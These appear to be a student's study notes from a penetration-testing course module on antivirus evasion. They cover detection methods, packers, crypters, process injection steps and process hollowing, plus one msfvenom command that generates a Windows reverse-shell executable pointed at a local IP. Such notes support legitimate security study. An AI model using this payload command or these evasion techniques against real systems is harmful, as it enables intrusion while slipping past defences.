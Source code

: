	- dynamically analyzes the behavior of a binary file
	- often achieved by executing the file in question in an emulated environment,and searching for behaviors or actions that are considered malicious.
- Machine Learning Detection
	- detect unknown threats by collecting and analyzing additional metadata.
	- Microsft Windows Defender
		- client ML Engine
			- creating ML models and heuristics
		- cloud ML engine
			- capable of analyzing the submitted sample against a metadata-based model comprised of all the submitted samples.
- Windows msfvenom example
	- msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.205 LPORT=5555 -f exe > binary.exe
### On-Disk Evasion
- packers
	- reduce the size of an executable
	- new hash signature and as a result, can effectively bypass older and more simplistic AV scanners
- Obfuscators
	- reorganize and mutate code
	- replacing instructions with semantically equivalent ones, inserting irrelevant instructions or _dead code_,[3](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/antivirus-evasion/bypassing-antivirus-detections/on-disk-evasion#fn3) splitting or reordering functions
	- modern ones can run in-memory
- Crypter
	- alters executable code, adding a decryption stub that restores the original code upon execution
	- decryption happens in-memory
	- encrypted code is the only thing on-disk
	- most effective
- anti-reversing
- anti-debugging
- virtual machine emulation detection
- anti-copy
- The Enigma Protector
	- commerical tool for bypassing AVs

### In-Memory Evasion
- In-memory Injections = PE injections
- Remote Process Memory Injection
	- inject the payload into another valid PE that is not malicious
	1. Windows APIs
	2. use OpenProcess to obtain a valid HANDLE
	3. get valid HANDLE to target process we have permissions to
	4. allocate memory in the context of that process by calling a Windows API such as VirtualAllocEx
	5. copy malicious payload to newly allocated memory using WriteProcessMemory
	6. execute in memory in a seperate thread using CreateRemoteThread
- Reflective DLL Injection
	- load a DLL stored by the attacker in the process memory
	- challenge
		- LoadLibrary does not support in-memory
		- must write their own version of the API that does not rely on a disk-based DLL
- Process Hollowing
	- launch a non-malicious process in a suspended state
	- the image of the process is removed from memory and replaced with a malicious executable image
	- the process is then resumed and malicious code is executed instead of the legitimate proces
- Inline hooking
		- employed by rootkits
			- dedicated and persistent access to the target system through modification of system components in user space, kernel, or even at lower OS protection rings13 such as boot or hypervisor
		